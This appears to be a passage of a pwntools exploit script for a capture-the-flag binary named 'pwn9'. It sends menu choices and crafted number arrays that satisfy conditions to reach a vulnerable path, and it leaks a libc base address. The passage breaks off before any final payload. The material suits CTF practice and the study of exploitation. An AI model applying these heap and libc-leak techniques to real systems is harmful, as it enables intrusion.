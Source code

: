 ```plain
def pwn(ip,port,debug):
    global sh
    global libc
    if(debug == 1):
        sh = process("./pwn9")
    else:
        sh = remote(ip,port)


    sla("hhh","1")
    sla("size???","96")
    sleep(0.1)
    s("\n")
    ru("Lucky Numbers")

    """
    show
    flag[0]<flag[15]
    flag[1]<flag[13]
    flag[2]>flag[10]
    flag[3]!=flag[11]
    flag[4]>flag[12]
    flag[5]<flag[14]

    flag[6]+flag[7]==flag[8]+flag[9]
    """

    flag=[50,50,50,50,50,50,50,50,50,50,10,100,10,100,100,100]
    for i in range(16):
        sleep(0.1)
        sl(str(flag[i]))


    #x/gx $rebase(0x00000000000056E0)
    sla("hhh","2")
    libc_base=l64()-libc.sym["__malloc_hook"]-0x10-1168
    # libc_base = 0x00007ffff7dcd000
    leak("libc_base",libc_base)

    """
    vuln0
    flag[0]<flag[15]
    flag[1]>flag[13]
    flag[2]>flag[10]
    flag[3]==flag[11]
    flag[4]>flag[12]
    flag[5]<flag[14]
    flag[6]+flag[7]>flag[8]+flag[9]
    """

    sla("hhh","1")
    sla("size???","96")
    sleep(0.1)
    s("\n")
    ru("Lucky Numbers")
    flag=[50,50,50,50,50,50,50,50,50,10,10,100,10,10,100,100]
    for i in range(16):
        sleep(0.1)
        sl(str(flag[i]))




```